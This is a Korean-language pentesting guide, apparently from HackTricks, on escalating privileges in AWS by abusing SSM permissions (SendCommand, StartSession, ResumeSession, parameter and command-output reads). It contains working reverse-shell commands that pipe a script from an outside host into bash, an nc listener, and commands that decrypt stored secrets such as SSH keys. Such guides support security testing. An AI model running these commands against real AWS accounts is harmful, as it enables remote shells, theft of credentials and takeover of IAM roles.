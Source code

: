 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서 명령을 실행**하고 **그 안에서 실행 중인 IAM 역할을 손상시킬 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
이미 손상된 EC2 인스턴스 내에서 권한 상승을 위해 이 기술을 사용하는 경우, 다음과 같이 로컬에서 rev shell을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한이 있는 공격자는 **Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 시작하고** 그 안에서 실행 중인 IAM 역할을 **타협할 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> 세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화된 상태**에서 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 **컨테이너 내에서 명령을 실행**할 수 있습니다.\
[**문서에 따르면**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) 이는 “_exec_“ 명령을 시작하는 데 사용하는 장치와 SSM 세션 관리자와 함께 대상 컨테이너 간에 안전한 채널을 생성하여 수행됩니다. (이 작업을 수행하려면 SSM 세션 관리자 플러그인이 필요합니다)\
따라서 `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 **쉘을 얻을 수 있습니다**.
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서** 연결이 끊긴 SSM 세션 상태로 SSH와 유사한 세션을 재시작하고 **그 안에서 실행 중인 IAM 역할을 타협할 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행 중이고 연결이 끊어진 세션이 있는 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

언급된 권한을 가진 공격자는 **SSM 매개변수**를 나열하고 **일반 텍스트로 읽을 수** 있습니다. 이러한 매개변수에서는 종종 SSH 키나 API 키와 같은 **민감한 정보**를 **찾을 수** 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령**을 나열할 수 있으며, 그 안에서 **민감한 정보**를 찾을 수 있기를 바랍니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령줄 내에서 민감한 정보를 찾습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 **명령**을 나열하고 **출력**을 읽을 수 있으며, 이를 통해 **민감한 정보**를 찾을 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령어 출력에서 민감한 정보를 찾습니다.

### Codebuild

SSM을 사용하여 빌드 중인 codebuild 프로젝트에 접근할 수도 있습니다:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
